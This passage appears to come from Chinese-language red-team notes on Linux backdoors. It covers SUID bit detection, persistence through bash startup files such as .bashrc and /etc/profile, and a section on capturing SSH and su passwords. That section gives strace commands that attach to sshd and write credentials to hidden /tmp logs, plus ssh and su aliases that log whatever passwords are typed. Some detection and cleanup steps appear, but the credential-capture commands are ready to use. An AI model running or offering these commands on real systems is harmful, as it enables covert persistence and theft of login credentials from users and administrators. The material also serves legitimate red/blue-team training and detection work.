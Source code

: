 ![image-20200329081418903](/Users/dawson0x00/Library/Application Support/typora-user-images/image-20200329081418903.png)

**检测清除**

```bash
find / -perm -04000 -type f -ls #检测
find / -perm -4000  #检测
chmod -s /tmp/test 或者 chmod 755 /tmp/test  # 清除
```

### 3. bash环境后门

> **原理**：bash环境文件 /etc/profile  ~/.bash_profile ~/.bashrc  ~/.bash_logout 这些本质上是bash脚本文件，当用户登陆系统之后，就会执行其中的部分文件，在其中写入bash命令即可在用户登陆时执行
>
> 注意 bash_profile 是在登录的 shell 执行的,bashrc 是在非登录的 shell 执行,即如果你只是想每次在登录的时候让它去执行,这个时候你可以把你的命令写在 .bash_profile,如果你想每次打开一个新的终端的时候都去执行,那么应该把命令写在 .bashrc 中.
>
> 如下，在shell重新登陆后会执行(注：test.sh中写入反弹shell 等各类要执行的命令)

![image-20200403230324730](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200403230324730.png)

如下为在bashrc中写入，在每开一个shell终端都会执行

![image-20200403230520745](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200403230520745.png)

**检测清除**

检测各个环境变量中是否存在异常代码，并清除

### 4. strace记录认证信息(待验证)

> 原理：strace用来调试跟踪一个进程执行时所产生的系统调用，或者说用来监视一个新进程的系统调用，也可以监测已经运行的系统调用，那么我们就可以利用他来监测sshd的进程，从而获取SSH登陆的账号密码

strace开启监测sshd

```bash
ps -ef | grep "sshd -D" | grep -v grep | awk {'print $2'}
strace -f -p $pid -o /tmp/.sshOutput_`date+%Y%m%d%H%M%S`.log -e trace=write -s 2048 &
# 上述命令为通过strace跟踪sshd的进程，可记录登陆本主机的ssh密码


#查看日志
grep -n "write(4, \"\\\\0\\\\0\\\\0\\\\" /tmp/.ssh.log
或者如下：
cat /tmp/.ssh.log | egrep "(read(4).*)"

```

```bash
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 ssh'
# 也可记录 su 密码
alias su='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 su'

grep "read(3" /tmp/sshpwd-名字自己补全  | tail -n 11
```
